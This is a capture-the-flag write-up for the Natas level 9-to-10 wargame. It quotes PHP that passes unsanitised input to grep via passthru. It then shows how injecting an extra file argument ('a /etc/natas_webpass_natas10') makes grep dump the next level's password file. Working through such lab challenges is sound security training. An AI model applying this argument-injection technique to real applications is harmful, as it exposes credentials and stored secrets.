 > literally just natas9 but you can't use these /[;|&]/
- they literally nuked all the sequential execution characters so we need a different angle
- the PHP code is basically identical except for the filter:
```php
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```
- we can't execute commands, but we can try to modify what grep is search for
- right now, the query searches in dictionary.txt on a case insensitive basis
- if you've used grep before, you know that you can pass multiple files for grep to search
- so, if we were to input `a /etc/natas_webpass_natas10` as the `$key` value, we could force grep to also cat out info from the password file
- inputting a random character for grep to search for so it doesn't throw an error, the query would look like this:
```bash
grep -i a /etc/natas_webpass_natas10 dictionary.txt
```
- success!
